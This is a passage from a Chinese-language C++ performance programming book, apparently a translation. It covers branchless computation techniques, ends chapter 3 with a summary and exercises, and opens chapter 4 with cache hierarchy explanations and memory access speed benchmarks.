最后两个转换(使用算术或位操作，而不是逻辑操作)改变了代码的含义:表达式中所有操作的参数都是求值的，并具有副作用。由编程者决定此更改是否会影响程序的正确性。如果副作用开销特别大，那么总体性能收益会是负的，例如：如果`f1()`和`f2()`非常耗时，那么用等价的算术加法(`f1() + f2()`)替换表达式`f1()|| f2()`中的操作会让性能下降(即使它改善了分支预测)。

总的来说，没有标准的方法来优化*假分支*中的分支预测，这就是为什么编译器难进行有效的优化。开发者必须使用特定于问题的知识，例如：某个特定条件是否可能发生，并将其与分析结果相结合，以获得最佳的解决方案。

了解了CPU操作如何影响性能，然后扩展到一个具体的和实际相关的例子中，并将这些知识应用于代码优化。在结束本章之前，再来看一个优化示例。

###  3.8.无分支计算 {#无分支计算 .unnumbered}

我们知道为了有效地使用处理器，必须有足够的代码来并行执行多条指令。没有足够的指令来保持CPU繁忙的主要原因可能是数据依赖，由于输入没有准备好，无法运行指令。通过流水线可以来解决这个问题，但必须事先知道哪些指令将执行。处理这个问题的方法是，根据计算这个条件的历史走向，对是否采用条件分支进行有根据的猜测。猜测越可靠，性能越好。猜测不可靠时，性能会受到严重影响。

所有这些性能问题的根源是条件分支，下一条要执行的指令直到运行时才知道。这个问题的根本解决方案是重写我们的代码，不使用分支，或者更少的分支。这就是**无分支计算**。

**3.8.1循环展开**

事实上，这个想法并不新颖。了解了分支影响性能的机制，因此使用循环展开技术来减少分支数量。回到我们最初的代码示例:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += p1[i] + p2[i];
}
```

虽然循环体是完全流水的，但是这段代码中有一个隐藏的分支:循环检查的结束，这个检查在每个循环迭代中执行一次。若事先知道，迭代次数N是偶数，就不需要在奇数次迭代后执行检查，可以显式地省略这个检查:

``` {style="styleCXX"}
for (size_t i = 0; i < N; i += 2) {
	a1 += p1[i] + p2[i]
		+ p1[i+1] + p2[i+1];
}
```

展开循环，将两个迭代转换为一个更大的迭代。这个例子和其他类似的例子一样，手动展开不太可能提高性能。首先，如果N很大，循环分支的结束部分可以完美地预测出来。其次，编译器可能会将展开作为一种优化，矢量化编译器将使用SSE或AVX指令来实现这个循环。实际上，这里对循环体进行展开的原因是，向量指令一次可以处理多个数组元素，不过这些结论都需要通过基准测试或分析来确认。如果发现手动循环展开对性能没有影响，不要感到惊讶(我们对于分支的理解没有问题)，这意味着原始代码已经进行了循环展开，这个优化操作已经由编译器完成了。

**3.8.2无分支选择**

循环展开是一个非常特殊的优化，编译器会来做这件事。将展开的想法转化为无分支计算是最近的进展，可以带来惊人的性能收益。我们将从一个非常简单的例子开始:

``` {style="styleCXX"}
unsigned long* p1 = ...; // Data
bool* b1 = ...; // Unpredictable condition
unsigned long a1 = 0, a2 = 0;
for (size_t i = 0; i < N; ++i) {
	if (b1[i]) {
		a1 += p1[i];
	} else {
		a2 += p1[i];
	}
}
```

假设条件变量`b1[i]`不能由处理器预测，这段代码的运行速度比良好的分支预测循环慢几倍。这里可以做得更好，就是可以完全消除这个分支，并通过指向两个目标变量的指针数组，通过索引来进行替换:

``` {style="styleCXX"}
unsigned long* p1 = ...; // Data
bool* b1 = ...; // Unpredictable condition
unsigned long a1 = 0, a2 = 0;
unsigned long* a[2] = { &a2, &a1 };
for (size_t i = 0; i < N; ++i) {
	a[b1[i]] += p1[i];
}
```

转换中，利用了布尔变量只能有两个值(0(`false`)或1(`true`))，将其转换为整数(如果用其他类型代替`bool`，必须确保所有的真值都由1表示，因为任何非零值都认为是真值，但只有1的值在我们的无分支代码中有效)。

这个转换通过对两个内存位置中的一个进行条件访问，替换掉指令中的条件跳转。由于这种条件内存访问可以流水化，无分支的版本具有显著的性能改善:

\
图 3.30

这个例子中，无分支的代码版本要快3.5倍。有些编译器在可能的情况下使用查找数组，而不使用条件分支来实现`?:`操作符。使用这样的编译器，可以通过如下循环体获得相同性能:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	(b1[i] ? a1 : a2) += p1[i];
}
```

通常，确定这种优化是否有效或效果如何的唯一方法是测试。

前面的例子涵盖了无分支计算的所有基本元素:不是有条件地执行这个或那个代码，而是转换它们，使代码在所有情况下都相同，条件逻辑由索引操作实现。我们将通过更多的例子来强调一些事项和限制。

**3.8.3无分支的例子**

大多数时候，依赖于条件的代码并不简单。通常，必须根据一些中间值来进行不同的计算:

``` {style="styleCXX"}
unsigned long *p1 = ..., *p2 = ...; // Data
bool* b1 = ...; // Unpredictable condition
unsigned long a1 = 0, a2 = 0;
for (size_t i = 0; i < N; ++i) {
	if (b1[i]) {
		a1 += p1[i] - p2[i];
	} else {
		a2 += p1[i] * p2[i];
	}
}
```

条件影响计算的表达式和结果存储的位置。两个分支唯一的共同之处就是输入，通常情况下，即使是输入也不一定是这样。

为了在没有分支的情况下计算出相同的结果，必须从条件变量索引的内存位置获取正确表达式的结果。因为我们决定不根据条件更改执行的代码，所以两个表达式都将执行。这样，向无分支的转换就很简单了:

``` {style="styleCXX"}
unsigned long a1 = 0, a2 = 0;
unsigned long* a[2] = { &a2, &a1 };
for (size_t i = 0; i < N; ++i) {
	unsigned long s[2] = { p1[i] * p2[i], p1[i] - p2[i] };
	a[b1[i]] += s[b1[i]];
}
```

两个表达式都执行了，结果存储在一个数组中。该数组用于索引计算的目标，即递增的变量。这增加了循环体的计算量，由于是连续的代码，没有了跳转，所以只要CPU有资源做更多的操作，这里的性能就会有提升。基准测试证实了这种无分支转换确实有效:

\
图 3.31

额外计算的数量有限，而且仍然优于条件代码。这里甚至没有一个通用型经验法则可以用来进行猜测(无论如何，都不应该猜测性能)。必须测量这种优化的有效性，它高度依赖于代码和数据。若分支预测器非常有效(可预测的条件，而不是随机条件)，那么条件代码将优于无分支的版本:

\
图 3.32

可以从图3.31和图3.32中得到的结论是，流水线刷新(错误预测的分支)的成本有多高，以及CPU在指令级并行性的同时可以做多少计算。无分支计算依赖的是隐藏的和未使用的计算资源，可能还没有耗尽这个资源(在我们的示例中)。我们可以展示代码的无分支转换的另一个版本，不使用数组来选择正确的结果变量，如果不想改变结果，将两者加零:

``` {style="styleCXX"}
unsigned long a1 = 0, a2 = 0;
for (size_t i = 0; i < N; ++i) {
	unsigned long s1[2] = { 0, p1[i] - p2[i] };
	unsigned long s2[2] = { p1[i] * p2[i], 0 };
	a1 += s1[b1[i]];
	a2 += s2[b1[i]];
}
```

现在有两个中间值的数组，而不是目标数组。这个版本会无条件地进行更多的计算，并且具有与之前无分支代码相同的性能:

\
图3.33 - 图3.31的结果，为另一个无分支实现添加了"BM_branchless1"

理解无分支变换的局限性是很重要的，不要忘乎所以。我们已经看到了一个限制:无分支代码通常要执行更多指令。因此，如果分支预测器工作良好，那么少量的流水刷新可能不足以证明优化的合理性。

无分支转换不能按预期执行的第二个原因与编译器有关:在某些情况下，编译器可以进行等效或更好的优化。例如**钳位环(clamp
loop)**:

``` {style="styleCXX"}
unsigned char *c = ...; // Random values from 0 to 255
for (size_t i = 0; i < N; ++i) {
	c[i] = (c[i] < 128) ? c[i] : 128;
}
```

该循环将`unsigned char`数组`c`的值限制为128。初始值是随机的，循环体中的条件在任何程度上都不能预测，可以预期一个非常高的分支错误预测率。另一种无分支的实现使用具有256个元素的**查找表(LUT)**，每个元素对应一个`unsigned char`值。索引`i`从0到127的表项`LUT[i]`包含索引值本身，更高索引值的在`LUT[i]`中为128:

``` {style="styleCXX"}
unsigned char *c = ...; // Random values from 0 to 255
unsigned char LUT[256] = { 0, 1, …, 127, 128, 128, … 128 };
for (size_t i = 0; i < N; ++i) {
	c[i] = LUT[c[i]];
}
```

大多数现代编译器，这根本不是优化问题:编译器可以更好地处理原始代码，很可能使用SSE或AVX向量指令一次复制和多个钳位字符，从而不需要任何分支。我们对原始代码进行了剖析(而不是假设分支必须错误预测)，发现该程序不会受到分支预测的影响。

还有一种情况是，无分支转换可能不成功，即循环体的开销明显高于分支(即使是错误的预测分支)。这种情况值得注意，因为它经常会在循环中使用:

``` {style="styleCXX"}
unsigned long f1(unsigned long x, unsigned long y);
unsigned long f2(unsigned long x, unsigned long y);
unsigned long *p1 = ..., *p2 = ...; // Data
bool* b1 = ...; // Unpredictable condition
unsigned long a = 0;
for (size_t i = 0; i < N; ++i) {
	if (b1[i]) {
		a += f1(p1[i], p2[i]);
	} else {
		a += f2(p1[i], p2[i]);
	}
}
```

根据条件`b1`，我们调用两个函数中的一个，`f1()`或`f2()`。如果使用函数指针数组，可以消除`if-else`语句，可以使代码无分支:

``` {style="styleCXX"}
decltype(f1)* f[] = { f1, f2 };
for (size_t i = 0; i < N; ++i) {
	a += f[b1[i]](p1[i], p2[i]);
}
```

这是值得做的优化吗？通常情况下，并不是。首先，如果可以内联`f1()`或`f2()`，那么函数指针调用将阻止这种情况。内联通常是一个主要的优化，放弃内联来摆脱分支是不合理的。函数没有内联，函数调用本身就破坏了流水(这是内联是有效的优化的一个原因)。与函数调用的成本相比，即使是一个错误的分支预测通常也没有那么多性能开销。

尽管如此，有时函数查找表也是值得优化的:它从不只提供两个选项，但是如果必须基于一个条件从多个函数中进行选择，那么函数指针表比链式`if-else`语句更有效。值得注意的是，这个示例与所有现代编译器用于实现虚函数调用的实现非常相似，调用也使用函数指针数组(而不是比较链)。如果需要优化基于运行时条件，调用多个函数中的一个，则应该考虑是否应该使用多态对象进行重新设计。

还应该记住无分支转换对代码可读性的影响:函数指针的查找表不容易读懂，调试起来可能比开关或if-else语句困难得多。由于影响最终结果的因素很多(编译器优化、硬件资源可用性、程序操作数据的属性)，任何优化都必须通过基准测试和概要数据文件之类的测量进行验证，并权衡其源码对于开发者的开发时间、可读性和复杂性。

###  3.9.总结 {#总结-2 .unnumbered}

这一章，了解了主处理器的计算能力，以及如何有效地使用。高性能的关键是最大限度地利用所有可用的计算资源，同时计算两个结果的程序比稍后计算第二个结果的程序快(假设计算能力可用)。CPU有很多用于各种计算的计算单元，大多数在特定时刻都是空闲的，除非程序得到了高度优化。

有效使用CPU指令级并行性的主要限制通常是数据依赖，没有足够的工作可以并行完成，以保持CPU繁忙。这个问题的硬件解决方案是流水线，CPU不仅在程序的当前点执行代码，而且从未来进行一些计算，这些计算有数据依赖项，也能并行执行它们。只要未来可预知，这种方法就能很好地工作。若CPU不能确定这些计算，就不能执行超前的计算。当CPU必须等待决定下一步执行什么机器指令时，流水线就会停止。为了减少这种情况的频率，CPU有特殊的硬件，可以预测最有可能的情况，通过采样条件代码的路径，并有根据的推测地执行代码。因此，程序的性能在很大程度上取决于预测的效果。

我们已经了解了使用特殊工具来帮助测试代码的效率，并识别限制性能的瓶颈。通过测试研究了几种优化技术，这些技术可以使程序利用更多的CPU资源，减少等待时间，增加计算量，并提高性能。

本章中，我们略过了每个计算都必须做的事情:内存访问。任何表达式的输入都驻留在内存中，必须在剩下的计算发生之前进入寄存器。中间结果可以存储在寄存器中，但最终必须将某些内容写回内存中，否则整个代码不会产生效果。事实证明，内存操作(读和写)对性能有显著影响。在许多程序中，内存操作是阻碍进一步优化的限制因素。下一章将专门研究CPU与内存的交互。

###  3.10.练习题 {#练习题-2 .unnumbered}

1.  高效使用CPU资源的关键是什么？

2.  如何使用指令级并行性来提高性能？

3.  如果后面的计算需要前面计算的结果，CPU如何并行执行？

4.  为什么条件分支比简单地计算一个条件表达式的代价要高得多？

5.  什么是投机执行？

6.  哪些优化技术可用来提高使用条件指令的流水线效率？

##  第4章内存架构与性能 {#第4章内存架构与性能 .unnumbered}

对于CPU，内存通常是限制整个程序性能的硬件瓶颈。本章中，我们首先了解现代内存架构，及其内在缺点，和解决或规避这些缺点的方法。对于许多程序来说，性能完全依赖于开发者是否能利用硬件特性来提高内存性能，本章会介绍这方面的相关技能。

本章将讨论以下内容:

-   内存子系统

-   访存性能

-   访问模式对算法和数据结构设计的影响

-   内存带宽和延迟

###  4.1.相关准备 {#相关准备-2 .unnumbered}

需要提前准备C++编译器和微基准测试工具，比如：前一章中使用的谷歌基准测试库(<https://github.com/google/benchmark>)。我们也将使用**LLVM机器代码分析器(LLVMMCA)**：<https://llvm.org/docs/CommandGuide/llvm-mca.html>。如果想使用MCA，那么需要基于llvm的编译器，比如Clang。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter04>

###  4.2.性能从CPU开始，但不会到此为止 {#性能从cpu开始但不会到此为止 .unnumbered}

前一章中，我们研究了CPU，以及如何使用它们以获得最佳性能，观察到CPU有能力并行执行大量指令(指令级并行)。在多个基准测试中看到了CPU可以在每个周期中执行许多操作，而不会造成任何性能损失，例如：添加和减去两个数字所花费的时间与添加两个数字所消耗的时间一样。

但读者们可能已经注意到，这些基准测试和示例具有一个相当不同寻常的特性。参考以下例子:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += p1[i] + p2[i];
	a2 += p1[i] * p2[i];
	a3 += p1[i] << 2;
	a4 += p2[i] – p1[i];
	a5 += (p2[i] << 1)*p2[i];
	a6 += (p2[i] - 3)*p1[i];
}
```

这段代码演示了CPU可以对这两个值`p1[i]`和`p2[i]`进行8次操作，与只进行一次操作的开销几乎相同。要非常小心地添加更多的操作，而非添加更多的输入。某些情况下，只要这些值已经在寄存器中，CPU的内部并行性就会启用。前面的示例中，在添加第二个、第三个......直到第8个操作时，我们只保留两个输入。现实中，对于给定的一组输入，需要的计算有多少？大多数时候都不到8个。

这并不意味着CPU的计算能力浪费了，除非碰巧运行了前面示例中的奇异代码。指令级并行性是流水线的计算基础，流水线可以同时执行循环中不同迭代的操作。无分支计算是用条件指令换取无条件计算，因此可以获得更多的"不耗时"计算。

然而，问题仍然存在:为什么要以这种方式限制CPU的基准测试？添加更多输入，便能够更轻松地输出8种不同的内容:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += p1[i] + p2[i];
	a2 += p3[i] * p4[i];
	a3 += p1[i] << 2;
	a4 += p2[i] - p3[i];
	a5 += (p4[i] << 1)*p2[i];
	a6 += (p3[i] - 3)*p1[i];
}
```

这与前面看到的代码相同，只是现在每次迭代操作4个不同的输入值，而不是两个。继承了前面例子的所有，但仅是因为我们希望在测量某些变化对性能的影响时，尽可能少地进行更改。其对性能的影响还挺大:

\
图 4.1

对4个输入值进行相同的计算，大约要多花36%的时间。当需要访问内存中的数据时，计算就会延迟。

应该注意的是，添加更多的自变量、输入或输出可能会影响性能，因为CPU可能正在消耗用于存储这些变量进行计算的寄存器。虽然这在许多实际的程序中是一个问题，但因为这里的代码不够复杂，不足以占满现代CPU的所有寄存器(确认这一点的最简单方法是检查机器码)。

显然，访问更多的数据会降低代码的速度，为什么呢？高层次的原因是内存跟不上CPU的计算速度。有几种方法可以估计这种速率的差异，最简单的方法在现代CPU的参数表中进行查阅。现在的CPU时钟频率在3GHz到4GHz之间，一个周期大约是0.3纳秒。CPU可以每秒执行几个操作，所以每纳秒执行10个操作并是可能的(尽管在实践中很难实现，这是一个高效程序的标志)。另一方面，内存则慢得多，例如：DDR4内存的工作频率为400Mhz。也可以找到高达3200MHz的值。但这不是内存时钟，而是数据速率，要将其转换为类似于内存传输数据的速度，还必须考虑**列访问频闪延迟**，通常称为**CAS延迟**或**CL**。简单来说，这是RAM接收数据请求、处理数据并返回值所需的周期数。没有在所有情况下都有意义的内存速度定义(本章后面，我们将看到原因)，但是，对于数据速率为3.2GHz和CAS延迟15的DDR4模块来说，其内存速度大约是107MHz，即每次访问9.4需要纳秒。

无论从哪个角度来看，CPU每秒执行的操作要比内存为这些操作提供输入值或存储结果的能力强。程序需要以某种方式使用内存，访问内存的细节将对性能产生重大影响，有时甚至会限制内存。然而，内存速率差对性能的影响会从微不足道到实际瓶颈。所以，必须了解不同条件下的内存如何影响程序性能，以及原因是什么，这样就可以利用这些知识来设计和优化自己的代码，从而获得最佳性能。

###  4.3.测试访问存速度 {#测试访问存速度 .unnumbered}

与内存数据相比，CPU中的寄存器可以更快地对数据进行操作。处理器和内存的速度至少有一个数量级的差异，在没有通过直接测量对性能进行验证之前，不要对性能做出任何猜测或假设。不过这不意味着关于系统架构的先验知识和基于这些知识的假设都没用，假设可以用来指导实验和设计正确的测试方法。我们将在本章中了解到，偶然尝到的甜头不会走太远，甚至会误入歧途。测试本身没问题，但通常很难确定测量的是什么，以及可以从结果中得出什么结论。

测量内存访问速度相当简单，需要一些可以读取内存和确定读取时间的方法，像这样:

``` {style="styleCXX"}
volatile int* p = new int;
*p = 42;
for (auto _ : state) {
	benchmark::DoNotOptimize(*p);
}
delete p;
```

这个基准测试会运行和测试......一些东西。可以将一次迭代的时间报告为0纳秒。这可能是不必要的编译器优化结果。如果编译器发现整个程序没有可观察行为，那么确实可以将其优化为零。但是，针对这样的事件采取了措施。读取的内存是`volatile`，访问`volatile`内存会认为是一种可观察行为，不能优化掉。相反，0纳秒的结果在一定程度上是基准测试本身的缺陷，表明单次读取的速度要快于1纳秒。这里测试到的内存速度与期望大相径庭，我们不能从一个什么都没有的报告中得到任何东西，包括自己犯的错误。在修正基准测试方面，我们要做的就是在基准测试迭代中进行多次读取，如下所示:

``` {style="styleCXX"}
volatile int* p = new int;
*p = 42;
for (auto _ : state) {
	benchmark::DoNotOptimize(*p);
	… repeat 32 times …
	benchmark::DoNotOptimize(*p);
}
state.SetItemsProcessed(32*state.iterations());
delete p;
```

每次迭代执行32次读取，可以从报告的迭代时间中计算出单个读取的时间。让谷歌基准库为我们进行计算，并报告每秒读取的次数。这可以通过在基准测试结束时，设置处理数量来实现。

基准测试在中等级别的CPU上，大约需要5纳秒的迭代时间，从而确认单次读取时间是总时间的1/32，远低于1纳秒(因此对每次迭代报告为0的猜测得到了验证)。另一方面，这个值与我们对慢速内存的期望并不匹配，所以我们之前关于性能瓶颈的假设可能不正确，当然还可以测试内存速度之外的指标。

**4.3.1内存架构**

为了理解如何正确地测试内存性能，必须更多地了解现代处理器的内存架构，内存系统最重要的特性是层级结构。CPU不直接访问主存，而是通过缓存的层级结构进行:

{width="50%"}\
图4.2 - 内存层级结构图

图4.2中的**RAM**是主存储器，即主板上的DRAM。系统说明书上说，这台机器有这么多G的内存，这就是DRAM的容量。可以看到，CPU并不直接访问主内存，而是通过几个层级结构的缓存访问主内存。这些缓存也是内存电路，但它们位于CPU芯片内部，使用不同的技术来存储数据，都是不同速度的SRAM。DRAM和SRAM的关键区别在于SRAM的访问速度要快得多，但比DRAM的功耗要大得多。随着我们在内存层级结构中越靠近CPU，内存访问的速度就越快。level-1(**L1**)缓存的访问时间与CPU寄存器的访问时间几乎相同，但它功耗很大，以至于只能拥有几千字节的内存空间，通常每个CPU核心有32KB的L1缓存。下一层，**L2**缓存更大但更慢，第三层(**L3**)缓存更大但也更慢(通常在CPU的多核之间共享)，层次结构的最后一层就是主存。

CPU第一次从主内存中读取数据值，该值通过所有缓存级别传播，其副本保留在缓存中。CPU再次读取相同的值，不需要等待从主内存获取值，因为相同值的副本已经存储在L1缓存中。

读取的数据需要适合L1缓存的长度，所有数据在第一次访问时就会加载到缓存中，之后CPU只需要访问L1缓存即可。如果访问不在缓存中的值，并且缓存已满，那么必须从缓存中清除一些内容，为新值腾出空间。这个过程完全由硬件控制，它有一些方法，根据我们最近访问的值(根据第一次近似，长时间没有使用的数据可能很快就不再需要了)，来确定我们最不可能再次需要哪个值。下一级缓存更大，但使用方式相同:只要数据在缓存中，就在那里访问它(离CPU越近越好)。否则，需要从下一级缓存取值，对于L3缓存来说，就是从主存取值，如果缓存已满，一些其他的数据块必须从缓存中去除(也就是被缓存遗忘，不过原始数据仍在主存中)。

由于反复读取相同的值成千上万次，初始读取的时间基本上可以忽略，测试所得的平均读取时间是L1缓存的读取时间。L1缓存的速度确实非常快，所以如果测试数据是32KB，就不需要担心内存的读取的性能差。不过，还是需要了解如何正确地测量内存性能，这样才能得出相应的结论。

**4.3.2测试内存和缓存的速度**

已经理解了内存速度比一次读取的时间要复杂得多，现在可以设计一个更合适的基准测试。可以预期缓存大小会对结果有影响，因此必须访问不同大小的数据，从几千字节(适合32KB的L1缓存)到几十兆字节或更多(L3缓存大小不同，但通常在8MB到12MB之间)。由于对于大数据量测试，内存系统将从缓存中清除旧数据，所以可以预期性能取决于预测的情况，或者说取决于访问模式。所谓的访问，例如复制一个内存范围，可能会以非常不同方式结束，而不是以随机的顺序访问相同的范围。最后，结果可能取决于内存访问的粒度，访问64位的值比访问单个字符，哪个快？

连续读取大数组的基准测试:

\
**01c_cache_sequential_read.C**

``` {style="styleCXX"}
template <class Word>
void BM_read_seq(benchmark::State& state) {
	const size_t size = state.range(0);
	void* memory = ::malloc(size);
	void* const end = static_cast<char*>(memory) + size;
	volatile Word* const p0 = static_cast<Word*>(memory);
	Word* const p1 = static_cast<Word*>(end);
	for (auto _ : state) {
		for (volatile Word* p = p0; p != p1; ) {
			REPEAT(benchmark::DoNotOptimize(*p++);)
		}
		benchmark::ClobberMemory();
	}
	::free(memory);
	state.SetBytesProcessed(size*state.iterations());
	state.SetItemsProcessed((p1 - p0)*state.iterations());
}
```

编写的基准测试与之前非常类似，只是在主循环中做了一行修改:

\
**01d_cache_sequential_write.C**

``` {style="styleCXX"}
Word fill = {}; // Default-constructed
for (auto _ : state) {
	for (volatile Word* p = p0; p != p1; ) {
		REPEAT(benchmark::DoNotOptimize(*p++ = fill);)
	}
	benchmark::ClobberMemory();
}
```

写入数组的值并不重要。如果认为0有点特殊，那么可以用其他值初始化`fill`。

使用`REPEAT`宏来避免多次手动复制代码。我们仍然希望每次迭代执行几次内存读取。当开始报告每秒读取的数量时，避免每次迭代0纳秒的报告就不重要了，但是对于这样成本非常低的迭代来说，循环本身的开销并不小，所以最好手动展开这个循环。`REPEAT`宏将循环展开32次:

``` {style="styleCXX"}
#define REPEAT2(x) x x
#define REPEAT4(x) REPEAT2(x) REPEAT2(x)
#define REPEAT8(x) REPEAT4(x) REPEAT4(x)
#define REPEAT16(x) REPEAT8(x) REPEAT8(x)
#define REPEAT32(x) REPEAT16(x) REPEAT16(x)
#define REPEAT(x) REPEAT32(x)
```

当然，必须确保请求的内存大小足够容纳32个`Word`类型的值，并且数组的总大小能被32整除，这对基准测试代码来说都不是什么限制。

说到`Word`类型，这是第一次使用`TEMPLATE`基准测试。它用于在不复制代码的情况下为几种类型生成基准测试:

``` {style="styleCXX"}
#define ARGS ->RangeMultiplier(2)->Range(1<<10, 1<<30)
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned int) ARGS;
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned long) ARGS;
```

如果CPU支持，可以在更大的块中读写数据，例如：在x86
CPU上使用SSE和AVX指令一次移动16或32个字节。在GCC或Clang中，对于这些较大的类型，有一些头文件:

``` {style="styleCXX"}
#include <emmintrin.h>
#include <immintrin.h>
…
BENCHMARK_TEMPLATE1(BM_read_seq, __m128i) ARGS;
BENCHMARK_TEMPLATE1(BM_read_seq, __m256i) ARGS;
```

`__m128i`和`__m256i`类型没内置在语言中(至少不是C/C++)，但C++可以很容易地声明新类型。这些是值类型类(表示单个值的类)，有一组定义好的算术操作(加法和乘法)，编译器使用适当的SIMD指令来实现这些操作。

前面的基准测试依次访问内存范围，从开始到结束。内存的大小随基准参数的指定而变化(在本例中，从1KB到1GB，每次增加一倍)。当复制一定范围的内存时，基准测试会从头再做一次，直到积累足够的量。

当以随机顺序测量访问内存速度，必须小心。天真的对代码进行基准测试看起来可能会像这样:

``` {style="styleCXX"}
benchmark::DoNotOptimize(p[rand() % size]);
```

但此基准测试了调用`rand()`函数所需的时间，计算开销比读取单个整数要大得多，因此可能永远不会注意到后者的开销。取模运算符`%`比单个读或写开销大得多。获得精确结果的唯一方法是预先计算随机索引，并将它们存储在另一个数组中。当然，现在正在同时读取索引值和索引数据，所以测量的开销是两次读取(或一次读取和一次写入)。

随机写入内存的代码如下所示:

\
**01b_cache_random_write.C**

``` {style="styleCXX"}
const size_t N = size/sizeof(Word);
std::vector<int> v_index(N);
for (size_t i = 0; i < N; ++i) v_index[i] = i;
std::random_shuffle(v_index.begin(), v_index.end());
int* const index = v_index.data();
int* const i1 = index + N;
Word fill; memset(&fill, 0x0f, sizeof(fill));
for (auto _ : state) {
	for (const int* ind = index; ind < i1; ) {
		REPEAT(*(p0 + *ind++) = fill;)
	}
	benchmark::ClobberMemory();
}
```

使用STL算法`random_shuffle`来产生随机的索引顺序(可以用随机数代替，这并不完全相同，因为一些指数可能出现过不止一次，而另一些则从未出现过，但这不会对结果产生太大影响)。处理的值实际上不重要，编写任何数字都需要相同的时间，但是编译器有时可以进行优化，如果它能够发现代码出现了大量的零，那么最好避免这种情况。另外，较长的AVX类型不能用整数初始化，因此可以使用`memset()`写入值。

当然，读取的基准测试代码非常相似，只是内部循环进行了修改:

``` {style="styleCXX"}
REPEAT(benchmark::DoNotOptimize(*(p0 + *ind++));)
```

基准测试代码主要用于测量内存访问的开销，而对索引的运算不可避免，但是加法最多只需要一个时钟周期(CPU可以同时做几个)，所以数学运算不会成为瓶颈(而且，访问数组内存的程序都必须做相同的计算，因此这就是实际中的访问速度)。来看看结果吧！

###  4.4.内存速度:数字 {#内存速度数字 .unnumbered}

现在已经有了基准测试来测量读写内存的速度，看看如何访问内存中的数据，可以获得最佳性能。先从随机存取开始，读或写的每个值的位置都不可预测。

**4.4.1随机访存的速度**

如果不多次运行基准测试，并对结果进行平均(基准库可以做到这一点)，那么测量结果可能会相当混乱。在合理的运行时间(分钟)内，可能会看到如下结果:

\
图4.3 - 随机读取速度与内存大小的关系

图4.3中的基准测试结果显示，每秒从内存中读取的数据(以十亿为单位)，长度为64位整数或265位整数(分别为`long`或`__m256i`)。同样的值也可以表示为，读取指定大小的单个整数所花费的时间:

\
图4.4 - 读取一个数组元素的时间与数组大小的关系

首先，没有单一的内存速度。在我所使用的计算机上，读取一个64位整数所需的时间从0.3纳秒到7纳秒不等。读取少量数据要比读取大量数据快得多。可以从这些图中看到缓存的大小，32KB的L1缓存速度很快，数据量都能装入L1缓存，读取速度就不依赖于数据量。超过32KB的数据，读取速度就开始下降。数据现在适合L2缓存，它更大(256KB)，但速度更慢。数组越大，适合快速L1缓存的部分就越少，访问速度越慢。

如果数据从L2缓存溢出，读取时间会增加得更多，必须使用L3缓存。不过，L3缓存要大得多，所以直到数据大小超过8MB时才会发生变化。这时，才真正开始从主存读取数据。数据都是在第一次接触时从内存中移动到缓存中的，所有后续的读取操作都只使用缓存。如果需要一次访问超过8MB的数据，那么其中的一些数据必须从主内存中读取(不同的CPU模型的缓存大小不同)。当然，不要马上去除缓存的好处是，只要大多数数据适合于缓存，至少在某种程度上是有效的。当数据量超出缓存大小几倍，读取时间完全取决于从内存中检索数据所花费的时间。

在缓存中找到某个变量进行读或写，称之为**缓存命中**。如果没有找到，就注册一个缓存缺失事件。当然，L1缓存缺失可以是L2命中。一个L3缓存缺失意味着必须从主存加载数据。

从内存中读取一个整数需要7纳秒。按照处理器的标准，这是非常长的时间，CPU每纳秒可以做几个操作。还需要注意的是，CPU可以在从内存中读取一个整数值所花费的时间，可以执行大约50个算术运算，除非该值恰好已经在缓存中。很少有程序需要对每个值执行50个操作，这意味着CPU很可能没有得到充分利用，除非能够找到一些加速内存访问的方法。

最后，以每秒整数为单位的读取速度并不取决于整数的大小。从实用的角度来看，如果使用256位的指令来读取内存，可以读取4倍的数据。当然，SSE和AVX加载指令可以将值读入不同的寄存器，因此还可以使用SSE或AVX
SIMD指令进行计算。更简单的情况是，只需要将大量数据从内存中的一个位置复制到另一个位置。测试表明，复制256位字比64位字快4倍。当然，现在有了库函数可以进行内存复制，比如：`memcpy()`或`std::memcpy()`，并对其进行了优化，以获得最佳的效率。

速度不依赖于数据大小这一事实还有另一个暗示，读取速度受延迟影响，而不是带宽的限制。延迟是发出数据请求和检索数据之间的事件。带宽是内存总线在给定时间内可以传输的数据总量。从64位到256位在同一时间内传输的数据是64位的4倍。也就是，我们还没有达到带宽限制。这似乎是一个纯理论的结论，它确实对编写高效程序有重要的影响。

最后，我们可以测试写入内存的速度:

\
图4.5 - 数组元素的写入时间与数组大小的关系

随机读写有非常相似的性能，但是这会因不同的硬件而不同。在前面观察到的读取内存的速度也适用于写入，在图4.5中看到了缓存大小的影响。如果涉及到主内存，则写入的总体等待时间会非常长，而且一次写入多个词会更有效率。

能否得出内存访问对性能影响的结论？一方面，如果需要重复访问少量的数据(小于32KB)，就不必为此担心。当然，重复是这里的关键，无论计划访问多少内存，第一次访问的内存位置都必须接触主存(直到读取整个数组并返回开始，计算机才知道数组很小------第一次读取一个小数组的第一个元素看起来与读取第一个元素完全一样大数组的)。另一方面，如果必须访问大量的数据，那么内存速度可能会成为首先关心的问题:7纳秒/个的速度，能等得起吗？

有几种提高内存性能的技术，将会在本章中看到。我们也会研究如何改进我们的代码，先看看硬件。

**4.4.2顺序访存的速度**

我们已经测试了在任意位置访问内存的速度，每一次内存访问实际上都是新的。我们正在读取的整个数组会加载到能够放入的最小缓存中，然后随机读写该缓存中的不同位置。该数组不适合缓存，然后随机访问内存中的不同位置，并且每次访问(对于我使用的硬件)都会产生7纳秒的延迟。

随机访存在程序中经常发生，但同样频繁的是顺序访存，从第一个元素到最后一个元素的顺序处理一个大数组。这里的随机和顺序访问是由存储器地址的顺序决定的，有可能出现误解的是，链表是不支持随机访问的数据结构(意味着不能直接跳到列表的中间)，必须从头元素开始按顺序访问。如果每个链表元素在不同的时间分配，那么顺序遍历列表很可能是以随机顺序访问内存。另一方面，数组是一种随机访问数据结构(可以随时访问任何元素)。然而，从数组的开始读取到结束，顺序访问内存，按照单调递增的地址顺序。除非另有说明，在本章讨论顺序访问或随机访问时，只关心访问内存地址的顺序，而非数据结构。

顺序访存的性能也与随机方式不同。下面是顺序写入的结果:

{width="80%"}\
图4.6 - 顺序访存，数组元素的写入时间与数组大小的关系

